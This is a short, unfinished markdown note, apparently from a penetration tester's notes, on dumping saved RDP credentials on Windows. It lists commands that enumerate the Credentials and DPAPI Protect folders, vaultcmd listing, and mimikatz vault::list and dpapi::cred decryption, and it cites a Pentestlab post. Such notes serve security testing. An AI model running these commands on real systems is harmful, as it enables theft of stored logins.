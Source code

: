 # Dump RDP Credentials

TODO: Fill the rest (refer to the links)

## Conditions

- `.rdp` file extensions are present in the target's workstation.

`C:\> dir C:\Users\%username%\AppData\Local\Microsoft\Credentials`

`C:\> vaultcmd /listcreds:"Windows Credentials" /all`

```
mimikatz # vault::list

mimikatz # dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\
```

`C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Protect\S-1-5-21-`

---
## References

- [Pentestlab Blog: Dumping RDP Credentials](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)